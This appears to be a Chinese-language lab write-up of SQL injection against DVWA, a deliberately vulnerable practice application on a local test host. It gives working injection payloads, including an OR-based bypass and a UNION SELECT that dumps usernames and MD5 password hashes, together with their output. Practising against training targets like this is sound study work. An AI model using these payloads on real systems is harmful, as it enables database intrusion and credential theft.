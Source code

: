 # SQL Injection

這次點開會有新的視窗跑出來，在上面可以用帳號 id query 帳號資訊，要留意的是返回的資訊是兩個欄位，所以要 UNION SELECT 時也要選兩個欄位

### 觀察

用的是 POST

```
POST http://dvwa.localtest/vulnerabilities/sqli/session-input.php
```

```
id=hello&Submit=Submit
```

```
id=2 UNION SELECT last_name,password FROM users -- -
```
壞了 QQ

基本款無效

```sql
1' OR 1='1
```

```
ID: 1' OR 1='1
First name: admin
Surname: admin
```
It works

參考 sqlmap 打 low 難度使用的 payload，運氣好就中了

```sql
1' OR 1=1#
```

```
ID: 1' OR 1=1#
First name: admin
Surname: admin

ID: 1' OR 1=1#
First name: Gordon
Surname: Brown

ID: 1' OR 1=1#
First name: Hack
Surname: Me

ID: 1' OR 1=1#
First name: Pablo
Surname: Picasso

ID: 1' OR 1=1#
First name: Bob
Surname: Smith
```
加上 UNION

```sql
1' UNION SELECT last_name,password FROM users WHERE 1=1 #
```

### Done
```sql
ID: 1' UNION SELECT last_name,password FROM users WHERE 1=1 #
First name: admin
Surname: admin

ID: 1' UNION SELECT last_name,password FROM users WHERE 1=1 #
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: 1' UNION SELECT last_name,password FROM users WHERE 1=1 #
First name: Brown
Surname: e99a18c428cb38d5f260853678922e03

ID: 1' UNION SELECT last_name,password FROM users WHERE 1=1 #
First name: Me
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: 1' UNION SELECT last_name,password FROM users WHERE 1=1 #
First name: Picasso
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: 1' UNION SELECT last_name,password FROM users WHERE 1=1 #
First name: Smith
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```
